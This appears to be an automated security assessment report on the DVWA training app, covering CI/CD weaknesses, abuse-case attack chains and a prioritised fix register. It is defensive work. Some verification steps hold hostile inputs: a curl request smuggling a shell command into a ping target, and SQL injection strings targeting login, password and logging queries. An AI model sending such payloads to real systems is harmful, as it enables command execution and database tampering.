#### F-056 · Third-party GitHub Actions pinned to mutable tags instead of commit SHAs

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** Multiple locations (3)

**Found by:** survey and scanners

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-018](#w-018) - Build pipeline trusts mutable third-party references

**Trust boundary gap:** [tb-1](#tb-1) - external → CI/CD Pipeline · Authorization: Mutable-tag action runs inside the build job that holds the `GITHUB_TOKEN` used for the `ghcr.io` push across this boundary.

**Instances (3):** `.github/workflows/docker-image.yml`: 16; `.github/workflows/codeql-analysis.yml`: 45; `.github/workflows/shiftleft-analysis.yml`: 24

**Issue:** The workflows reference third-party actions by mutable tags such as @v3 or @main instead of commit SHAs. A compromised publisher can retroactively inject malicious code into a tag that is already in use.

The actions come from well-known publishers, and pushes are limited to master and manual dispatch, but neither control pins the code that runs.

**Evidence:** ✓ verified - `docker-image.yml` lines 16, 19, 22 reference actions by @v3; `shiftleft-analysis.yml` line 24 references scan-action@v1.3.0 with `GITHUB_TOKEN` at line 27; `codeql-analysis.yml` lines 45, 56, 70 use @v4.33.0 tags.

**Fix:** ◑ [M-060](#m-060) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · STRIDE: Tampering · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-SUPPLY-01](#tc-supply-01) · Rules: IAC-011

<a id="t-073"></a><a id="f-073"></a>
#### F-073 · Workflows lack explicit permissions block

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `.github/workflows/docker-image.yml:10`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Trust boundary gap:** [tb-1](#tb-1) - external → CI/CD Pipeline · Authorization: The boundary assumes the `GITHUB_TOKEN` can write only the project's package, but the build job sets no permissions so default scope applies.

**Issue:** None of the workflows declares permissions at workflow or job level, so each job's `GITHUB_TOKEN` inherits the repository default scope, which on legacy-default repositories is read-write across contents, packages and more. A compromised action or injected step in the build, scan or vulnerable jobs can push commits, create releases or overwrite packages beyond what the job needs.

**Evidence:** ✓ verified - `docker-image.yml` job build (line 10), `codeql-analysis.yml` job analyze (line 20), `shiftleft-analysis.yml` Scan-Build (line 16), `pytest.yml` and `vulnerable.yml` jobs define no permissions key; effective default scope is set in repository settings, not visible in source.

**Fix:** ◑ [M-075](#m-075) — Add least-privilege permissions blocks to every workflow

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-074"></a><a id="f-074"></a>
#### F-074 · Container Runs as Root

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Reliability:** Low. Not confirmed, this may be a false positive: No USER instruction in `Dockerfile` lines 1-25, but the file continues past the served window, so a later USER cannot be ruled out.

**Issue:** Container Runs as Root: Containers running as root expand container-escape blast radius.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-006](#m-006) — Manual review: verify Container Runs as Root · ◑ [M-008](#m-008) — `Dockerfile` USER directive

**Classification:** Supply-Chain Integrity · STRIDE: Elevation of Privilege · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-INFRA-01](#tc-infra-01) · Rules: IAC-002

<a id="t-075"></a><a id="f-075"></a>
#### F-075 · Missing Workflow Permissions Block

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** Multiple locations (5)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-011](#w-011) - Missing Workflow Permissions Block

**Instances (5):** `.github/workflows/codeql-analysis.yml`: 20; `.github/workflows/docker-image.yml`: 10; `.github/workflows/pytest.yml`: 15; `.github/workflows/shiftleft-analysis.yml`: 16; `.github/workflows/vulnerable.yml`: 9

**Issue:** Missing Workflow Permissions Block: Without an explicit permissions block at workflow or job level, the job inherits the repository default (commonly write-all) for `GITHUB_TOKEN` - any compromised step can push code, create releases, or approve PRs.

**Evidence:** ✓ verified

**Fix:** ◑ [M-009](#m-009) — Apply least-privilege permissions

**Classification:** Supply-Chain Integrity · STRIDE: Elevation of Privilege · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-CI-01](#tc-ci-01) · Rules: IAC-010

_**Reliability** says how sure this report is that a finding is real, not how severe it is. It is a judgement, not a probability._

---

## 9. Abuse Cases

_Abuse cases connect findings into attack scenarios, worst first. The verdict records whether repository evidence confirms the path. Risk is the highest risk among the linked findings; verification adds none._

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="58%" style="width:58%"><col width="18%" style="width:18%"><col width="24%" style="width:24%"></colgroup>
<thead><tr><th>Scenario</th><th>Risk</th><th>Verdict</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-005">AC-T-005</a> · Authentication Bypass via Exposed Secret Material</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Critical</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-004">AC-T-004</a> · Privilege Escalation via Mass-Assignment on Registration</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Critical</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-006">AC-T-006</a> · Remote Code Execution via Server-Side Injection</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Critical</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-001">AC-T-001</a> · Account Takeover via XSS + Token Hijacking</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 High</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">? Inconclusive</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-t-002">AC-T-002</a> · Bulk Data Exfiltration via Broken Object Authorization</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟡 Medium</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-006">AC-B-006</a> · User keeps using a withdrawn right</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟡 Medium</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">⚠ Fully viable</span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#ac-b-001">AC-B-001</a> · User reads or changes data of another user or tenant</td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">not rated (no linked finding)</span></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">? Inconclusive</span></td></tr>
</tbody>
</table>

**Unresolved scenarios**

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="26%" style="width:26%"><col width="16%" style="width:16%"><col width="58%" style="width:58%"></colgroup>
<thead><tr><th>Case</th><th>Findings</th><th>Where it stands</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a id="ac-t-001"></a>AC-T-001 · Account Takeover via XSS + Token Hijacking</td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-011">F-011</a></span></td><td style="overflow-wrap:break-word">✓ Step 1 confirmed<br/>? Step 2 inconclusive<br/>? Step 3 inconclusive<br/><details><summary>Reasons</summary>Step 2: The matched evidence is the innerHTML sink, not a token store. No localStorage, sessionStorage or document.cookie use appears in the readable sources, so storage of the session token cannot be decided. (vulnerabilities/authbypass/authbypass.js:45)<br/>Step 3: LoginController accepts a refresh&#95;token grant with no visible PKCE or binding, but Login::check&#95;refresh&#95;token is not in the readable sources.</details></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="ac-b-001"></a>AC-B-001 · User reads or changes data of another user or tenant</td><td style="overflow-wrap:break-word">No matched finding</td><td style="overflow-wrap:break-word">? Step 1 inconclusive<br/><details><summary>Reasons</summary>Step 1: evidence not admitted (no evidence): Both preselected download scripts serve a hardcoded, public demo source file with no user or tenant input and no per-user data, so no cross-user/tenant read or change exists in them.</details></td></tr>
</tbody>
</table>

_⚠ Fully viable: no effective control blocks the chain · ◐ Partially blocked: at least one step has a compensating control · ✓ Mitigated: the chain is broken at a verified step · ? Inconclusive: could not be verified end to end. Steps: ✓ confirmed · ✗ refuted · ? inconclusive._

_Proposed fixes address confirmed steps; their effectiveness still requires validation._

---

<a id="ac-t-005"></a>
### AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** technical abuse case · **Actor:** Anonymous Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-029](#f-029) — Hardcoded symmetric encryption keys in source | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | _no matching finding_<br/>`vulnerabilities/cryptography/source/token_library_impossible.php:99` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Scenario impact**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Proposed fixes for confirmed steps**

- ● [M-035](#m-035) — Load keys from a secret store (**P1**): addresses 🟠 [F-029](#f-029) — Hardcoded symmetric encryption keys in source at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-002"></a>
### AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** technical abuse case · **Actor:** Authenticated Internet Attacker - authenticated low-privilege user · **Combined Risk:** 🟡 Medium · **Verdict:** ⚠ Fully viable

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟡 [F-081](#f-081) — IDOR guarded by static public token | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🟡 [F-082](#f-082) — Unauthenticated user API allows mass assignment | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Scenario impact**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Proposed fixes for confirmed steps**

- ◑ [M-081](#m-081) — Enforce object-level (ownership) authorization (**P3**): addresses 🟡 [F-081](#f-081) — IDOR guarded by static public token at **Step 1**. Validate the fix against this step before treating the chain as blocked.
- ◕ [M-082](#m-082) — Allowlist client-controlled fields (**P2**): addresses 🟡 [F-082](#f-082) — Unauthenticated user API allows mass assignment at **Step 2**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-004"></a>
### AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** technical abuse case · **Actor:** Anonymous Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟡 [F-082](#f-082) — Unauthenticated user API allows mass assignment | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Scenario impact**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Proposed fixes for confirmed steps**

- ◕ [M-082](#m-082) — Allowlist client-controlled fields (**P2**): addresses 🟡 [F-082](#f-082) — Unauthenticated user API allows mass assignment at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-006"></a>
### AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** technical abuse case · **Actor:** Anonymous Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|----------------------------------|----------------------|
| 1 | 🟡 [F-076](#f-076) — Help page evals contents | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Scenario impact**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Proposed fixes for confirmed steps**

- ◕ [M-076](#m-076) — Remove server-side evaluation of untrusted input (**P2**): addresses 🟡 [F-076](#f-076) — Help page evals contents at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-b-006"></a>
### AC-B-006 — User keeps using a withdrawn right

> **Source:** business abuse case · **Actor:** attacker · **Combined Risk:** 🟡 Medium · **Verdict:** ⚠ Fully viable

**Attack chain**

| Step | Finding | Outcome |
|--------|--------------------------------------------|----------------------|
| 1 | 🟡 [F-100](#f-100) — User keeps using a withdrawn right | Check whether a withdrawn role, permission,<br/>or account keeps working through an existing<br/>session, token, or cached authorization. |

**Proposed fixes for confirmed steps**

- ◑ [M-083](#m-083) — Re-check current roles and account status when a session or token is used (**P3**): addresses 🟡 [F-100](#f-100) — User keeps using a withdrawn right at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

### Technical abuse cases — evaluated, not applicable

_These common abuse-case scenarios from the standard library were checked against this codebase and did not apply. They are listed so the assessment's abuse-case coverage is explicit, not silent._

| Scenario | Source | Why not applicable |
|------------------------------------|---------|----------------------|
| Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | mandatory | no finding matched the required chain<br/>step(s) for this scenario |
| Privileged Action via Prompt Injection into<br/>a Tool-Calling Model | mandatory | no finding matched the required chain<br/>step(s) for this scenario |

---

### Business-case coverage

- 5 business abuse case(s) did not apply: preselection found no matching runtime code or signal.

---

## 10. Mitigation Register

Changes are ordered by priority: P1 before deployment, P2 this sprint, P3 next quarter, P4 backlog. Each entry links its findings and gives the available implementation steps and checks.

### P1 — Immediate

<a id="m-013"></a>
#### M-013 — Validate target host and use escapeshellarg

**Addresses:**

- 🔴 [F-004](#f-004) — OS command injection in health connectivity check and ping feature

**Weaknesses addressed:** [W-001](#w-001)

**Prevents CWEs:**

- [CWE-78](https://cwe.mitre.org/data/definitions/78.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/api/src/HealthController.php:88`

**How:**

1. Validate the target and ip values with `filter_var(FILTER_VALIDATE_IP)`, or with a strict hostname regex for target, and reject anything that fails.
2. Replace the `str_replace` metacharacter blacklist in `medium.php` with that validation.
3. Pass the value through `escapeshellarg()`, or better, avoid the shell entirely by running ping through `proc_open` with an argument array.
4. Require an authenticated, authorized token on health/connectivity, or remove the endpoint.

**Verification:** Run curl -X POST -d '{"target":"`127.0.0.1`;sleep 10"}' `http://host/vulnerabilities/api/v2/health/connectivity` and confirm that it returns immediately with a validation error. Then run an automated test that submits values containing shell metacharacters to the exec ping feature at the low and medium levels. Assert that they are rejected with an invalid-IP error and never reach `shell_exec`.

**Reference:** [CWE-78: Improper Neutralization of Special Elements used in an OS Command (OS Command Injection)](https://cwe.mitre.org/data/definitions/78.html)

---

<a id="m-014"></a>
#### M-014 — Use prepared statements for user update query

**Addresses:**

- 🔴 [F-005](#f-005) — SQL injection in user detail update endpoint

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/authbypass/change_user_details.php:47`

**How:**

1. Replace the concatenated query with `mysqli_prepare('UPDATE users SET first_name=?, last_name=? WHERE user_id=?')` and bind the values with types 'ssi'.
2. Cast id with intval and reject non-string name fields.

**Verification:** Send `first_name`=`"x'`, password='a' -- " and confirm the password column for user 1 is unchanged and the literal string is stored instead.

**Reference:** [OWASP Cheat Sheet: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

<a id="m-023"></a>
#### M-023 — Bind log values with prepared statements

**Addresses:**

- 🟠 [F-016](#f-016) — SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/bac/source/low.php:81`

**How:**

1. Use `mysqli_prepare` with bound parameters for the `bac_log` INSERT, as `impossible.php` does.
2. Take the client IP from `REMOTE_ADDR` unless the request comes from a trusted proxy.

**Verification:** Send X-Forwarded-For: 1',`SLEEP(5)`)-- and confirm there is no delay and the row contains the literal value.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-024"></a>
#### M-024 — Use prepared statements for login lookup

**Addresses:**

- 🟠 [F-017](#f-017) — SQL injection in brute-force login query

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/brute/source/low.php:13`

**How:**

1. Replace the string-built query with `mysqli_prepare` and bind username and password as parameters.
2. Remove the `die()` that echoes `mysqli_error`.

**Verification:** Request ?`username=admin`'--+&`password=x`&Login=Login and confirm the login fails and no SQL error is returned.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-025"></a>
#### M-025 — Bind session id via prepared statement

**Addresses:**

- 🟠 [F-018](#f-018) — Second-order SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/sqli/source/high.php:11`

**How:**

1. Validate the id as an integer when it is stored in the session.
2. Use a parameterised query in `high.php`.

**Verification:** Store a non-numeric id through `session-input.php` and confirm that it is rejected.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-026"></a>
#### M-026 — Use prepared statements with bound integer id

**Addresses:**

- 🟠 [F-019](#f-019) — SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/sqli/source/low.php:11`

**How:**

1. Validate that id is numeric and cast it with intval.
2. Use a prepared statement that binds id as an integer, as `impossible.php` does.

**Verification:** Run an automated SQLi scanner against the id parameter and confirm that it reports no injectable parameter.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-027"></a>
#### M-027 — Bind id as integer parameter in prepared query

**Addresses:**

- 🟠 [F-020](#f-020) — SQL injection in unquoted numeric context despite escaping

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/sqli/source/medium.php:12`

**How:**

1. Reject non-numeric id values and cast them with intval.
2. Use a prepared statement with an integer-bound parameter.

**Verification:** Run an automated SQLi scanner against the POST id and confirm that no injection is detected.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-028"></a>
#### M-028 — Parameterize query and validate cookie id

**Addresses:**

- 🟠 [F-021](#f-021) — Blind SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/sqli_blind/source/high.php:13`

**How:**

1. Validate the cookie id as numeric.
2. Execute the lookup through a prepared statement.

**Verification:** Run a blind-SQLi scanner against the id cookie and confirm that no injection is detected.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-029"></a>
#### M-029 — Use parameterized query for blind lookup

**Addresses:**

- 🟠 [F-022](#f-022) — Blind SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/sqli_blind/source/low.php:13`

**How:**

1. Validate id as numeric.
2. Use a prepared statement with a bound integer.

**Verification:** Run a blind-SQLi scanner against id and confirm that no injection is detected.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-030"></a>
#### M-030 — Bind id as integer in prepared statement

**Addresses:**

- 🟠 [F-023](#f-023) — Blind SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/sqli_blind/source/medium.php:15`

**How:**

1. Cast and validate id as an integer.
2. Use a prepared statement.

**Verification:** Run a blind-SQLi scanner against the POST id and confirm that no injection is detected.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-031"></a>
#### M-031 — Require authentication on every exposed endpoint

**Addresses:**

- 🟠 [F-024](#f-024) — Unauthenticated database reset in setup page

**Prevents CWEs:**

- [CWE-306](https://cwe.mitre.org/data/definitions/306.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `setup.php:6`

**How:**

1. Require an authenticated admin session (`dvwaPageStartup(array('authenticated'))` plus role check) once the database exists.
2. Disable `setup.php` after initial installation via a config flag.

**Verification:** Without a session, GET `setup.php` then POST `create_db` with the token; expect redirect to login and no DROP DATABASE.

**Reference:** [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

<a id="m-035"></a>
#### M-035 — Load keys from a secret store

**Addresses:**

- 🟠 [F-029](#f-029) — Hardcoded symmetric encryption keys in source

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-321](https://cwe.mitre.org/data/definitions/321.html) - Use of Hard-coded Cryptographic Key

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/token_library_impossible.php:3`

**How:**

1. Load a randomly generated 32-byte key from the environment or a secret manager.
2. Use a distinct key for each purpose, and rotate the exposed keys.

**Verification:** grep the repository for the old key literals and confirm none remain.

**Reference:** [CWE-321: Use of Hard-coded Cryptographic Key](https://cwe.mitre.org/data/definitions/321.html)

---

### P2 — This Sprint

<a id="m-007"></a>
#### M-007 — docker-compose secrets supplied by reference

**Addresses:**

- 🟠 [F-027](#f-027) — Hardcoded MariaDB root and application passwords in compose

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `compose.yml:31`

**How:** Move the value to Compose `secrets` or an untracked env file and reference it as `${VAR}`; rotate the committed value - A credential written as a literal in a service's `environment` is readable by everyone with repository access and runs unchanged wherever the file is deployed.

1. Replace the literal `MYSQL_ROOT_PASSWORD` and `MYSQL_PASSWORD` values with `MYSQL_ROOT_PASSWORD_FILE` and `MYSQL_PASSWORD_FILE` that point to Docker secrets, or with variables from an untracked .env file excluded from version control.
2. Generate strong, random, unique passwords for each deployment.
3. Rotate the credentials that have already been exposed.

**Verification:** Run grep -nE '`MYSQL_(ROOT_)?PASSWORD=`' `compose.yml` and confirm that it returns no literal values. Then confirm that the database starts using the secret files.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-010"></a>
#### M-010 — Require CSRF token and current password

**Addresses:**

- 🟠 [F-001](#f-001) — Missing Anti-CSRF Token on State Changes

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/captcha/source/low.php:45`

**How:**

1. Call `checkToken` on every password-change POST, including in `high.php`.
2. Require and verify the current password before running the UPDATE.

**Verification:** Submit a cross-origin POST without `user_token` and confirm the password is unchanged.

**Reference:** [OWASP Cheat Sheet: Cross Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

---

<a id="m-011"></a>
#### M-011 — Use modern cryptographic hash and KDF algorithms

**Addresses:**

- 🟠 [F-002](#f-002) — Broken MD5 hashing used for stored passwords without salt or strength policy
- 🟡 [F-070](#f-070) — Broken hash primitive

**Weaknesses addressed:** [W-008](#w-008)

**Prevents CWEs:**

- [CWE-328](https://cwe.mitre.org/data/definitions/328.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `dvwa/includes/dvwaPage.inc.php:651`

**How:**

1. Replace `md5()` with `password_hash($pass, PASSWORD_ARGON2ID, or PASSWORD_BCRYPT with cost >= 12)`.
2. Verify passwords with `password_verify` instead of comparing hashes in SQL.
3. Widen the `users.password` column to at least `VARCHAR(255)`, and rehash on next login with `password_needs_rehash`.
4. Add a server-side minimum length of at least 12 and a breached-password check to all password set and change paths.
5. Use `password_hash()` (bcrypt/argon2) for credentials and `hash('sha256', …)` for integrity.
6. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Run setup and change a password. Then run `SELECT password FROM users` and assert that each value starts with \$2y\$ or \$argon2id\$. Confirm that a change to 'abc' is rejected.

---

<a id="m-015"></a>
#### M-015 — Verify the current password before any password change

**Addresses:**

- 🟠 [F-006](#f-006) — Password change does not require the current password

**Weaknesses addressed:** [W-009](#w-009)

**Prevents CWEs:**

- [CWE-620](https://cwe.mitre.org/data/definitions/620.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/csrf/source/low.php:9`

**How:**

1. Require `password_current` in a POST body and verify it against the stored hash before updating.
2. Accept the change only by POST with an anti-CSRF token, and invalidate other sessions after a change.

**Verification:** Send a GET to the change handler with matching new passwords and no current password, then assert that the password is unchanged and the login with the old password still succeeds.

---

<a id="m-016"></a>
#### M-016 — Use authenticated encryption with uniform errors

**Addresses:**

- 🟠 [F-007](#f-007) — Unauthenticated CBC token exposes padding oracle

**Prevents CWEs:**

- [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/token_library_high.php:26`

**How:**

1. Switch to AES-GCM with a random IV, as `token_library_impossible.php` does, or add an HMAC that is verified before decryption.
2. Return one generic error for every validation failure.

**Verification:** Run an automated test asserting that tokens with a modified IV are rejected with the same status as malformed tokens.

**Reference:** [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

---

<a id="m-017"></a>
#### M-017 — Force unique admin password

**Addresses:**

- 🟠 [F-008](#f-008) — Default seeded administrator credentials

**Prevents CWEs:**

- [CWE-1392](https://cwe.mitre.org/data/definitions/1392.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `dvwa/includes/DBMS/MySQL.php:55`

**How:**

1. Generate or require an operator-supplied admin password during setup instead of seeding 'password'.
2. Remove the displayed default credentials from `setup.php` and force a password change on first login.

**Verification:** After setup, POST `login.php` with `username=admin`&`password=password` and a valid `user_token`; expect 'Login failed'.

**Reference:** [CWE-1392](https://cwe.mitre.org/data/definitions/1392.html)

---

<a id="m-018"></a>
#### M-018 — Remove default passwords and force setting on first use

**Addresses:**

- 🟠 [F-009](#f-009) — Setup seeds accounts with well-known weak default passwords

**Prevents CWEs:**

- [CWE-1393](https://cwe.mitre.org/data/definitions/1393.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `dvwa/includes/DBMS/MySQL.php:55`

**How:**

1. Generate random initial passwords during setup, or require the operator to set them, instead of fixed literals.
2. Force a password change on first login for any seeded account.

**Verification:** After setup, POST to `login.php` with admin/password and assert the response is 'Login failed'.

---

<a id="m-019"></a>
#### M-019 — Render user fields via textContent and DOM APIs

**Addresses:**

- 🟠 [F-011](#f-011) — Stored XSS

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

